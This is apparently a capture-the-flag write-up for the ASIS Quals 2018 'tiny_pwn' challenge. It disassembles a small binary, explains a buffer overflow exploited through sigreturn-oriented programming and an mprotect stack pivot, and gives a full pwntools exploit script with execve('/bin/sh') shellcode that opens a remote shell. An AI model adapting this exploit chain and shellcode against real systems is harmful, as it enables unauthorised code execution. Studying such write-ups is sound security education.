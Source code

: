 ```yaml
---
title: Asis Quals 2018 Tinypwn
updated: 2018-05-01 10:57:13
tags: [pwn,writeup]
---
```


- [tiny_pwn](#orgfec5732)



<a id="orgfec5732"></a>

# tiny_pwn


The binary is fairy simple

```nasm
; CALL XREF from 0x004000dd (entry0)                                                                                                       
0x004000b0      4831c0         xor rax, rax                ; [01] -r-x section size 91 named .text                                         
0x004000b3      4831db         xor rbx, rbx                                                                                                
0x004000b6      4831c9         xor rcx, rcx                                                                                                
0x004000b9      4831d2         xor rdx, rdx                                                                                                
0x004000bc      4831ff         xor rdi, rdi                                                                                                
0x004000bf      4831f6         xor rsi, rsi                                                                                                
0x004000c2      4d31c0         xor r8, r8                                                                                                  
0x004000c5      4d31c9         xor r9, r9                                                                                                  
0x004000c8      4d31d2         xor r10, r10                                                                                                
0x004000cb      4d31db         xor r11, r11                                                                                                
0x004000ce      4d31e4         xor r12, r12                                                                                                
0x004000d1      4d31ed         xor r13, r13                                                                                                
0x004000d4      4d31f6         xor r14, r14                                                                                                
0x004000d7      4d31ff         xor r15, r15                                                                                                
0x004000da      4831ed         xor rbp, rbp                                                                                                
0x004000dd      e810000000     call 0x4000f2               ;[1]                                                                            
0x004000e2      b83c000000     mov eax, 0x3c               ; '<' ; 60                                                                      
0x004000e7      4831ff         xor rdi, rdi                                                                                                
0x004000ea      4831f6         xor rsi, rsi                                                                                                
0x004000ed      4831d2         xor rdx, rdx                                                                                                
0x004000f0      0f05           syscall                                                                                                     
; CALL XREF from 0x004000dd (entry0)                                                                                                       
0x004000f2      4881ec280100.  sub rsp, 0x128                                                                                              
0x004000f9      4889e6         mov rsi, rsp                                                                                                
0x004000fc      ba48010000     mov edx, 0x148              ; 328                                                                           
0x00400101      0f05           syscall                                                                                                     
0x00400103      4881c4280100.  add rsp, 0x128                                                                                              
0x0040010a      c3             ret                                                                                                         
```

It first xor's all the registers and then calls `0x4000f2` which creates a buffer of size `0x128` and read `0x148` bytes with read syscall then exit's .

Well there is obvious buffer overflow there , we can overwrite the return address and change the flow of the program . The first obstacle is to set the `rax` register to call appropriate syscall , since there are no gadget for that , we have to relay on the fact that the return value is stored in `rax` register . Well read syscall is a good candidate , we just need to give fixed amount of input and it will return the number of bytes returned thus we can get arbitrary values in rax . But the catch is that to call the read syscall the rax register should be `0` in the binary this is done at the starting and the call instruction is in between will push the address of the next instruction to the stack and if we want control after that we have to overflow till there which conflicts with our purpose of calling read to set rax register .

Since after the first read we can make the value of the rax register values from 0x130 to 0x148 we can effectively call any syscall in that range and it turns out , calling the `getrandom` syscall (318) with rsi and rdx set to 0 returns 0 , ie we can set rax to 0 with this . After that we basically we can call any syscall we want .

So we can do SROP here . But we need address of /bin/sh and we do not have a stack leak , and if we are going to call `sigreturn` we need to point rsp to someplace which is `rw` otherwise it will segfault . One possible option is to call `mprotect` on the text section . Next things is that we need our control back , since we do not have control over the values on this region prior to this syscall . we have no control after the stack being pivoted to the code segment .

Let's examine the code segment

```nasm
pwndbg> x/60gx 0x400000
0x400000:       0x00010102464c457f      0x0000000000000000
0x400010:       0x00000001003e0002      0x00000000004000b0
0x400020:       0x0000000000000040      0x0000000000000120
0x400030:       0x0038004000000000      0x0002000300400002
0x400040:       0x0000000500000001      0x0000000000000000
0x400050:       0x0000000000400000      0x0000000000400000
0x400060:       0x000000000000010b      0x000000000000010b
0x400070:       0x0000000000200000      0x000000066474e551
0x400080:       0x0000000000000000      0x0000000000000000
0x400090:       0x0000000000000000      0x0000000000000000
0x4000a0:       0x0000000000000000      0x0000000000000010
0x4000b0:       0x3148db3148c03148      0x48ff3148d23148c9
0x4000c0:       0xc9314dc0314df631      0x314ddb314dd2314d
0x4000d0:       0x4df6314ded314de4      0x0010e8ed3148ff31
0x4000e0:       0x480000003cb80000      0xd23148f63148ff31
0x4000f0:       0x000128ec8148050f      0x000148bae6894800
0x400100:       0x0128c48148050f00      0x7368732e00c30000
0x400110:       0x742e006261747274      0x0000000000747865
0x400120:       0x0000000000000000      0x0000000000000000
0x400130:       0x0000000000000000      0x0000000000000000
0x400140:       0x0000000000000000      0x0000000000000000
0x400150:       0x0000000000000000      0x0000000000000000
0x400160:       0x000000010000000b      0x0000000000000006
0x400170:       0x00000000004000b0      0x00000000000000b0
```

since the stack grows from higher address to lower address we can pivot the stack to `0x400170` and when ret instruction is executed the control will jump to the address `0x4000b0` which is the entry point of the binary and with the read syscall we can overwrite everything on the code segment. Now we just need to give a shellcode .

My exploit script .

```python
from pwn import *

def p64(hex):
    from struct import pack
    return pack('<' + 'Q' * len(hex), *hex)
context.arch = 'amd64'
context.bits = 64
if True:
    io = remote ("159.65.125.233", 6009)
else:
    # context.log_level = "debug"
    context.terminal = ['tmux', 'splitw', '-h']
    io = gdb.debug("./TinyPwn",'''
    b * 0x004000b0
    '''
    )


frame = SigreturnFrame(kernel='amd64')

frame.rdx=0x7
frame.rax=0xa
frame.rsi=0x1000
frame.rdi=0x400000

frame.rip = 0x004000f0
frame.rsp = 0x400170

payload = p64([
    0x0,
    0x0])
payload += str(frame)
payload = payload.ljust(0x128,"\x00")
payload += p64([
    0x004000ea,
    0x004000f2,
    0x004000b0,
])
payload = payload.ljust(0x13d,"A")
io.send(payload[:0x13e])
raw_input()
io.sendline("\x00" * 0xe)
raw_input()
shellcode = "\x48\xC7\xC7\x48\x00\x40\x00\x48\x31\xF6\x48\x31\xD2\x48\x31\xC0\xB0\x3B\x0F\x05\xB0\x3C\x0F\x05\x90"
shellcode = shellcode.rjust(0x110,"\x90")
payload = "/bin/sh\x00" + shellcode
io.send(payload)
io.interactive()
```

